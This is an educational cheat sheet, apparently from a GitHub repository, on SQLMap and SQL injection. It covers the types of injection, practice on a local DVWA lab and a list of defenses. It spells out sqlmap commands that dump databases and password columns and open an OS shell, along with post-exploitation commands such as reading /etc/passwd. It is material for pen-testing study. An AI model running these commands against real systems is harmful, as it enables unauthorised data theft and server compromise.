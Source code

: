 # SQLMap Cheat Sheet & Notes

## 🛠️ What is SQLMap?

SQLMap is an open-source tool that automates the process of detecting and exploiting SQL injection (SQLi) vulnerabilities in web applications. It can even be used to gain access to the underlying database and operating system.

### 🔍 Features:

- Database fingerprinting
- Fetching database data
- Accessing the underlying file system
- Executing commands on the OS via out-of-band connections

### 🔥 Supported SQLi Types:

- Boolean-Based Blind
- Time-Based Blind
- Error-Based
- UNION Query-Based
- Stacked Queries

---

## 💻 SQLMap Basic Commands

### General Flags

- `--batch`: Accept default answers to all prompts

### Common Use Cases

```bash
sqlmap -u "url?id=1" --batch --banner             # Retrieve DBMS banner
sqlmap -u "url?id=1" --batch --passwords          # Enumerate DBMS user passwords
sqlmap -u "url?id=1" --batch --dbs                # List all databases
sqlmap -u "url?id=1" --batch --tables -D <db>     # List tables in a database
sqlmap -u "url?id=1" --batch --dump -T <table> -D <db>  # Dump table contents
sqlmap -u "url?id=1" --batch --os-shell           # Gain OS shell if possible
sqlmap -u "http://target.com/page.php?id=1" --dump -D users -T accounts -C username,password
sqlmap -r request.txt -p user_id --dbs

```
The -C flag in sqlmap is used to specify one or more specific columns to dump from a table, instead of dumping all columns.
This tells sqlmap to parse a raw HTTP request from a file (-r) and test a specific parameter (-p) for SQL injection.

### Example Post-Exploitation Commands:

```bash
pwd
whoami
ls /
cat /etc/passwd
```

---

## ⚔️ What Can a Successful SQLi Do?

- Read sensitive data from the database
- Modify/Insert/Delete database data
- Execute administrative DB operations
- Extract file contents from the DB file system
- Write files to the server
- Execute OS-level commands

---

## 🧠 Categories of SQL Injection

### 1. In-Band (Classical SQLi)

- **Error-Based**: Leverage DB error messages for data extraction
- **Union-Based**: Use UNION operator to extract data from other tables

### 2. Out-Of-Band

- Uses different communication channels (e.g., HTTP, DNS)
- Requires:
  - Vulnerable app and DB
  - Outbound request permission from the DB
  - Sufficient DB privileges

### 3. Inferential (Blind SQLi)

- Data is not directly returned
- Relies on:
  - Boolean conditions
  - Time delays (Time-Based Blind SQLi)

---

## 🧪 Practice with DVWA (Damn Vulnerable Web Application)

### 🐳 Run DVWA in Docker

```bash
sudo apt install -y docker.io
sudo systemctl enable docker --now
sudo docker run hello-world
sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

### 🧬 SQLMap on DVWA (Low Security Level)

```bash
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=123&Submit=Submit#" \
  --cookie="PHPSESSID=...; security=low" --tables

sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=123&Submit=Submit#" \
  --cookie="PHPSESSID=...; security=low" --schema --batch

sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=123&Submit=Submit#" \
  --cookie="PHPSESSID=...; security=low" --dump -T users --batch

sqlmap --url "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=..." -D dvwa -T users --columns
```

---

## 🛡️ SQL Injection Defense Mechanisms

1. **Input Sanitization**: Remove/escape special characters (`'`, `--`, `;`, etc.)
2. **Prepared Statements**: Use parameterized queries (e.g., `?`, `$1`)
3. **Stored Procedures**: Encapsulate queries in routines
4. **Least Privilege Principle**: Restrict DB user privileges
5. **Web Application Firewall (WAF)**: Use tools like ModSecurity
6. **Allowlist Input Validation**: Validate inputs strictly
7. **Error Handling**: Hide DB error messages
8. **Limit Query Results**: Use `LIMIT` / `TOP` to reduce exposure
9. **Regular Audits**: Perform code review, pen-testing, and use tools like SQLMap, Burp Suite
10. **Use ORM**: Frameworks like SQLAlchemy or Hibernate

---

## 📚 Reference Materials

- [SQL Injection Cheat Sheet (GitHub)](https://github.com/AdmiralGaust/SQL-Injection-cheat-sheet)
- [Netsparker SQLi Guide](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [UNION Attacks (PortSwigger)](https://portswigger.net/web-security/sql-injection/union-attacks)
- [Database Info Gathering (PortSwigger)](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [Blind Injections (PortSwigger)](https://portswigger.net/web-security/sql-injection/blind)
- [SQL Zoo](https://sqlzoo.net/)
- [Juice Shop SQLi Hints](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/part2/injection.html)

---

**DLL (Dynamic Link Library)**: A Windows format for reusable functions shared across applications.

---
